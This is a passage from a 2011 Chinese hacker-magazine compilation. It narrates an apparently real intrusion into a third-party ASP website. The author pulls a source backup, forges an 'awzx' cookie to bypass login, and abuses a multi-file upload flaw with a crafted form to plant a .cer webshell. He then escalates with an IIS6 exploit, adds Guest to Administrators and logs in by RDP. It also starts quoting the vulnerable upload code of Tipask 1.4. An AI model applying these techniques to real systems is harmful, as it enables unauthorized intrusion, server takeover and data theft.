# 黑客X档案合订本2011年（下）第二部分

---

# 一个人的战争

## 歪歪代码，右手入侵

小楼听雨

距离上次给《黑X》写稿件已经两年有余，本以为自己已经彻底与所谓的网络安全决裂。无奈毕竟是喜欢过的东西，即使很长时间不去触摸，依然能够轻易就使人热血沸腾。本文将展现一次边分析脚本代码边入侵的详细过程。





## 一、倚天一啸，谁与争锋

打开目标站点 www.vict****.com，网站程序由 Asp 脚本编写而成。粗略观察了一下也没有辨认出使用何种 CMS。首先找几个链接手工测试有无注入点，结果立刻弹出警告框（如图1），看来自站点做了防注入处理。我们暂且放弃注入另辟蹊径，祭出 WebRobot 进行文件扫描，收获颇丰（如图2）。

访问 `http://www.vict****.com/wwwroot.rar` 后得到站点源码，并在 `/admin/MyDB/` 下发现数据库文件。站长从文件名上做了防下载处理，常见绕过方式是对文件名进行 URL 编码。使用 WebRobot 对文件名进行编码后在浏览器中访问（如图3），未出现预想下载窗口，服务器对 mdb 格式文件下载做了限制（如图4）。

得到源码却无法获取 webshell。回到源码文件夹，在 `file` 目录下发现几个可疑文件，其中有名为 `upload_soft.asp`。访问后出现上传页面（图5），但尝试上传图片提示“请登录后再使用本功能”（图6）。接下来分析登录验证部分源码，寻找突破点。









```asp
if EnabledUploadFile4="No" then
    response.Write "系统未开放文件上传功能"
```

在 `upfile_soft.asp` 中有如下相关代码：

```vb
else
    if session("AdminName")="" and request.cookies("awzx")("UserName")="" then '登录验证
        response.Write("请登录后再使用本功能!") '登录失败
    else
        select case upload_type '登录成功，并选择上传方式
            case 0
                call upload_0() '使用化境无组件上传类
            case else
                response.write "本系统未开放插件功能"
                response.end
        end select
    end if
end if
```







登录验证处的代码检查用户的 Session 和 Cookies 是否为空，若为空则登录失败。此处代码看似无懈可击，其实代码作者犯了一个致命的逻辑错误，此处本应是逻辑或的关系，而作者却错用了逻辑与。登录验证处 And 前后的判断都为真时整个条件语句才成立，也就是只有在用户 Session 和 Cookies 都为空的情形下才会返回登录失败，二者缺一不可。虽然我们无法改变 Session 的值，倘若使用 Cookies 欺骗改变 Cookies 内容会发生什么呢？使用菜刀的 Cookies 修改功能，添加内容为“;awzx=UserName=xI7y”，如图7，后上传图片格式的文件成功，如图8。查看返回的页面源文件即可获得所上传的文件路径，一鼓作气上传几种后缀的可执行脚本，皆无功而返，如图9。尝试 IIS6.0 的解析漏洞上传后缀为 asp;.jpg 的文件，虽然可以正常上传，但是却没有成功解析，如图10。

继续阅读源代码，过滤上传文件格式的代码如下：

```vb
<%
sub upload_0() '使用化境无组件上传类
    set upload=new upfile_class '建立上传对象
    '...无关代码省略...
    for each formName in upload.file '列出所有上传文件
        set ofile=upload.file(formName) '生成一个文件对象
        '...无关代码省略...
        fileExt=lcase(ofile.FileExt) '白名单验证上传文件格式
        arrUpFileType=split(UpFileType, ",") '从UpFileType中按“,”分隔的允许格式
        for i=0 to ubound(arrUpFileType)
            '...
        next
    next
end sub
%>
```

```vb
if fileEXT=trim(arrUpFileType(i)) then
    EnableUpload=true  '若为允许格式则允许上传
    exit for
end if
next
if fileEXT="asp" or fileEXT="asa" or fileEXT="aspx" then  '黑名单验证
    EnableUpload=false  '若为asp、asa、aspx格式则禁止上传
end if
if EnableUpload=false then
    msg="这种文件类型不允许上传！\n\n只允许上传这几种文件类型：" & UpFileType
    FoundErr=true
end if

if foundErr<>true then
    FileName=SavePath & ofile.FileName
    '无关代码省略
    ofile.SaveToFile Server.mappath(FileName)  '保存文件
    response.write "附件上传成功！附件大小为：" & cstr(round(ofileSize/1024)) & "K"

    set file=nothing
next
set upload=nothing
end sub
%>
```

成功上传。由于原上传页面只支持同时上传一个文件，因此我们需要自己构造表单进行本地提交，主要代码如下：

```html
<form action="http://www.victimsite.com/file/Upfile_Soft.asp" method="post" name="form1" enctype="multipart/form-data">
  <input name="FileName1" type="FILE" class="tx" size="40">
  <input name="FileName2" type="FILE" class="tx" size="40">
  <input type="submit" name="Submit" value="上传" style="border:1px double rgb(88,88,88);font:9pt">
</form>
```

这里提醒一下诸位，action 后面的提交地址一定要改为绝对路径，使用构造好的页面进行文件上传，如图11，先选择一个正常的图片文件，接着选择一个 cer 后缀的小马，点击上传后两个文件同时上传到目标服务器上面，如图12，访问小马地址成功执行，如图13。至此，我们已经成功拿到 webshell，开始向着系统最高权限进军。



图11



图12



图13

本段代码中对上传文件的格式采取了白名单加黑名单双重过滤的方法，本应该天衣无缝，不料支持多文件同时上传这一特性却让我们找到了走向成功的通天大道。下面我们继续分析一下该段代码的利用原理，文件能否上传主要取决于变量 EnableUpload 的值。EnableUpload 初始化为 false，若白名单验证过程中“文件后缀在白名单允许的范围内”则置 EnableUpload 为 true，紧接着黑名单验证过程中“若文件后缀在黑名单中”则置 EnableUpload 为 false。现假设我们同时上传两个文件 x.gif 和 x.cer，上传 x.gif 的过程中，文件后缀首先通过了白名单的验证，因此将 EnableUpload 的值改变为 true。由于后缀 gif 不在黑名单中，因 EnableUpload 的值在黑名单验证的过程中并没有改变，所以 x.gif 成功保存到目标服务器上。然后程序进入上传 x.cer 环节，虽然 cer 不在白名单允许的范围内，但是并没有改变 EnableUpload 的值，同样因为 cer 不在黑名单中，EnableUpload 的值直到最后依然保持 x.gif 上传结束后的值，即 EnableUpload=true，因此 x.cer 被上传成功。

## 二、宝刀屠龙，号令天下

在 webshell 里随便翻了翻，发现服务器权限设置得很不严格，目录大多可以直接跳转。找到一个 Aspx 站点，查看其目录下的 Web.config 文件，可惜数据库连接用户不是 Sa，只好尝试其它方法。上传 Pi 和 XiaoA 执行命令都没有成功，下面本文的主角 IIS6.0 本地提权漏洞 Exp 出场；在 Aspx-spy 执行命令的页面中 CmdPath 处填入 iis6.txt 的路径，在 Argument 处填入需要执行的命令，果然没有令人失望，再一次执行成功如图14。随后按照我的习惯，激活 Guest 用户，修改 Guest 用户密码，将 Guest 用户添加到 Administrators 组，整个过程一气呵成。运行 mstsc 连接一下，服务器远程登录已开启，并且端口也为默认的 3389，成功登录如图15。





文章最后隆重推荐一下文中涉及到的两把神器：首先是近来由某大牛写的快速旁注工具 WebRobot，此工具确实是同类工具的集大成者，几乎囊括了入侵过程中所需要的全部功能；最后便是提权过程中用到的 iis6.txt，因其提权成功率高、威力巨大，将其誉为屠龙宝刀，而且还是免费的哦亲。相信有此种神器在手，定会使你即使冲锋陷阵于千军万马之中依然如入无人之境。

> （文章中涉及的相关工具及部分代码本期光盘已收录）

## Tipask问答系统1.4上传漏洞

今天在土司看到心灵朋友公布了 Tipask 问答系统 1.4 的一个上传漏洞，很快 lostwolf 朋友公布了漏洞利用 EXP。经过测试，利用 EXP 可以瞬间拿到 shell，漏洞利用过程很简单。

## 一、漏洞简介

先来看 Tipask 官方对它的介绍：“Tipask 是一款开源、SEO 友好、扩展性强、性能卓越的问答系统！Tipask 独特的 MVC 构架，使得二次开发非常容易，多种接口方便和已有系统整合。我们的使命：努力打造最适合国人使用的问答系统！”目前 Tipask 的最新版本为 1.4，就是它存在上传漏洞。

漏洞的公布者是心灵，他给出了简短的漏洞分析，这里直接引用：

```php
user.php（用户操作）
function oneditimg(){ //修改头像
if (isset($_FILES['filedata'])) { ... }
```

```php
$upload_tmp_path = "data/tmp/";
$fileName = '/bigavatar' . $this->user['uid'] . ... substr($_FILES['filedata']['name'], -3);
move_uploaded_file($_FILES['filedata']['tmp_name'], $upload_tmp_path . $fileName);
//从这个链接读了...
$img = getimagesize($upload_tmp_path . $fileName);
$imginfo = array();
$imginfo['src'] = SITE_URL . $upload_tmp_path . $fileName . '?' . time();
$imginfo['w'] = $img[0];
$imginfo['h'] = $img[1];
$imginfo['ext'] = $img[2];
echo json_encode($imginfo);
```

